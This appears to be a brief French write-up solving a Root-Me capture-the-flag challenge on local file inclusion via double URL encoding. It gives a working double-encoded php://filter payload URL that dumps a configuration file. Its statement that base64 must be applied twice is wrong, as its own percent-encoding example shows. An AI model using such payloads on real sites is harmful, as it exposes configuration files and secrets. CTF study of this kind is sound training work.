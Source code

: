 # Local File Inclusion - Double encoding

sources utile : https://owasp.org/www-community/Double_Encoding <br>
solution : http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64-encode%252Fresource%253Dconf <br>
il faut chiffrer en base64 2 fois pour que le site accepte <br>
exemple : **'.'** = %2E et **'%'** = %25 -> %252E